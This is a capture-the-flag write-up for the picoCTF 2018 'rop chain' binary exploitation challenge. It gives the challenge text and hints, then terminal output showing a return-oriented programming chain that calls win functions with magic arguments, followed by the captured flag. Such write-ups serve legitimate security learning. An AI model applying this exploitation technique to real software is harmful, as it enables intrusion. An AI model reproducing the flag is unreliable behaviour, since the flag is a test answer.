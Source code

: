 # rop chain - Points: 350 - (Solves: 170)

Can you exploit the following [program][1] and get the flag?
You can findi the program in
/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47
on the shell server?
[Source][2].

[1]: https://2018shell2.picoctf.com/static/51c2b076860b7628c8d751424e923504/rop
[2]: https://2018shell2.picoctf.com/static/51c2b076860b7628c8d751424e923504/rop.c

## Hints

- Try and call the functions in the correct order!
- Remember, you can always call main() again!

---

```sh
zzzz@pico-2018-shell-2:~/pico18/pwn/rop$ py xpwn.py
[*] '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop': pid 1838022
[*] Loaded cached gadgets for '/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'
[*] 0x0000:        0x80485cb win_function1()
    0x0004:        0x80485d8 win_function2(0xbaaaaaad)
    0x0008:        0x804840d <adjust @0x10> pop ebx; ret
    0x000c:       0xbaaaaaad arg0
    0x0010:        0x804862b flag(0xdeadbaad)
    0x0014:           'faaa' <return address>
    0x0018:       0xdeadbaad arg0
picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}
```
